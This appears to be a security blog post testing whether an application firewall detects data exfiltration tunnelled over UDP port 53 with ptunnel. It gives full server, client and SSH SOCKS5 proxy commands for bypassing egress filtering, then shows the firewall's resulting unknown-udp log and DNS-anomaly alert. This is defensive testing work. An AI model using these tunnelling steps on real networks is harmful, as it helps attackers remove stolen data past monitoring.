 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over UDP (ptunnel)"
date:   2020-09-01 12:21:16 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that UDP is being permitted egress by the firewall.
</p>

<p>
ptunnel creates a tunnel interface on a system and then allows you to create a UDP tunnel between a clien
t and the server.
</p>
<p>
The server will need to be on the outside of your DUT (Device Under Testing). The idea is that the client
 will establish a tunnel to the server and be able to bypass the rest of the controls (URL Filtering, IPS, etc) in the network that the client is behind.
</p>


<h3>Step 1 - Deploy the ptunnel Server</h3>


<p>
In this case the ptunnel server is running on a host in Azure. Make sure the Azure Network Security Group is permitting port 53, or whichever port you decide to use to get around the DUT.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>
<br>


<p>
Once installed we can start the server. In this case we are enabling the UDP flag because ptunnel's default behaviour is to use ICMP (which is super slow). The -v enables visibility into what's going on. And -x boom is a password being set which is also optional.
<p>

<code>
  ptunnel -udp -v 4 -x boom
</code>
<br>
<br>

<img src="/images/appid-evasion-ptunnelserver.png">
<br>
<br>

<h3>Step 2 - Deploy the ptunnel Client</h3>

<p>
From a host behind the DUT run the ptunnel client. There are Windows binaries if you prefer but Linux is what we are using.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>
<br>

<p>
Once installed we can start the client. In this case we are again enabling the UDP flag. The -p IP address is the servers public IP address. The -lp 8080 is specifying a local port to proxy traffic through, and the -da localhost is specifying localhost as the proxy (in some circumstances you may want to use a different local IP). The -dp 22 is the destination port on the remote end we will be sending traffic through. And the -x boom is again the corresponding password.
</p>

<code>
  sudo /usr/sbin/ptunnel -udp -p 52.138.7.43 -lp 8080 -da localhost -dp 22 -x boom 
</code>

<img src="/images/appid-evasion-ptunnelclient.png">
<br>
<br>



<h3>Step 3 - Setup a Proxy</h3>


<p>
From the client system we will now configure an SSH SOCKS5 proxy. This will send all of our traffic over an encrypted SSH tunnel, through the UDP tunnel established by ptunnel. The main reason for this is ease of use. You could also setup a basic HTTP proxy like squid on the ptunnel server side.
</p>

<p>
To start the proxy from the client we ssh, specify the local port of 8080, -C compresses traffic, -D 8081 specifies to use 8081 as the SOCKS5 port, and -da localhost -dp 22 says to ssh into localhost. It is important to note that because we are actually using port 8080 this command is ssh'ing into the ptunnel host so remember to use the login for the ptunnel server and not actually localhost.
</p>

<code>
  ssh -p 8080 -C -D 8081 sperciballi@localhost
</code>
<br>
<br>

<img src="/images/appid-evasion-ptunnelssh.png">
<br>
<br>

<h3>Step 4 - Proxy Your Traffic</h3>

<p>
At this point we have essentially enabled a proxy within a proxy. Now we have to tell our client system software to use the proxy.
</p>

<p>
In your web browser preferences search for proxy. Then configure it to use a SOCKS5 proxy, specify localhost for the host and port 8081 (from step 3) for the port.
</p>

<img src="/images/appid-evasion-ptunnelproxy.png">
<br>
<br>

<p>
From here if you search for what's my IP you will find that the IP address is that of the public interface of the ptunnel server.
</p>


<h3>Step 5 - View the Results</h3>

<p>
Check back in on the NGFW to see how it interpretted this session.
</p>

<p>
From this one we can see that there were two alerts. One of them was a traffic log that shows traffic going over UDP port 53. The application is unknown-udp. While this is not ideal it's better to be designated as unknown-tcp which you should be working to manage out of your ruleset than misidentified as DNS or something else. You can also see that the traffic amounted to 5.3M which was me visiting a couple of websites. Also important to note that you won't see this log until the session is ended by default.
</p>

<p>
The second alert is an IPS alert indicating that there was non-compliant DNS traffic. These two things together are a good indicated that someone is tunneling and is reason to adjust policy.
</p>

<img src="/images/appid-evasion-ptunnelresults.png">
<br>
<br>

